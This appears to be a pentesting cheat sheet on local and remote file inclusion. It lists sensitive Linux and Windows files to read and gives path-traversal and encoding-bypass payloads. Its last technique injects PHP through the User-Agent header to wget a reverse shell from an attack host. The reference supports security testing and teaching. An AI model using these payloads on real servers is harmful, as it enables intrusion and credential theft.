 # Local and remote file inclusion

Local file inclusion \(LFI\) vulnerabilities allow an attacker to read local files on the web server using malicious web requests. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution \(RCE\). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user \(e.g. www-data\).

## Interesting files

If an LFI vulnerability exists, look for these files:

### Linux

Linux system files:

```text
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```

#### Log files
Potentially interesting logfiles:

```text
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```

#### CMS configuration files
Content management system configuration files:

```text
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

### Windows

Files that may exist on Windows systems:

```text
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows.

```text
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

## Techniques

### Basic

Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:

```text
http://host/?page=../../../../../etc/passwd
```

Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

#### wget
Sometimes browsers mess around with basic directory traversal sequences, but `wget` may work:
```
wget http://[host]/wp-content/uploads/page.php?url=../../../../../../../var/www/html/wp-config.php
```

### Nesting traversal sequences

If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```text
....//

....\/

..../\

....\\
```

### URL-encoded

Encoding all the slashes and dots in your path traversal could bypass input filters:

```text
dot             %2e
forward slash   %2f
backslash       %5c
```

Example:

```text
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded

Another encoding method:

```text
dot             %252e
forward slash   %252f
backslash       %255c
```

Example:

```text
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Overlong UTF-8 encoding

You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```text
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator \(`%00` or `0x00` in hex\) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:

```text
$file = $_GET['page'];
require_once("/var/www/$file.php");
```

Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:

```text
http://website/page=../../../etc/passwd%00
```

### proc/self/environ method

If you're able to request `/proc/self/environ` using LFI, you might be able to get a shell by downloading a remote file with reverse shellcode and run it on the system \(e.g. [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)\). You'll need to intercept the `/proc/self/environ` request and replace HTTP request header `User Agent` with the following:

```text
<?system('wget http://[attack host]]/reverseshell.txt -O shell.php');?>
```

Then execute the shell by calling the URL where it was uploaded:

```text
http://[attack host]/folder/shell.php
```

## Further reading

* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
* [LFI to RCE with Perl script](https://www.exploit-db.com/papers/12992/)

